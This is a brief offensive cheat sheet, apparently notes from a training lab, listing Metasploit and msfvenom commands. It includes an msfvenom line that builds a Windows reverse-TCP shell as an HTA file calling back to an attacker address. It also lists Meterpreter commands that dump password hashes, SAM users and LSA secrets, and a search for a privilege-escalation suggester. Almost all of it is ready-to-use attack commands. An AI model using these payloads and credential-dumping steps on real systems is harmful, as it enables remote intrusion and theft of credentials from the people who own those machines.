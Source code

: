 # Metasploit Commands

```
set PAYLOAD payload/cmd/unix/reverse
```
# MSFVenom Commands

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
dump hashes in a meterpreter session
```
hashdump
```
dump sam users in a meterpreter session
```
lsa_dump_sam
```
dump secrets in a meterpreter session.
```
lsa_dump_secrets
```
searches for the local exploit suggestor
```
search local_exploit_suggester
```
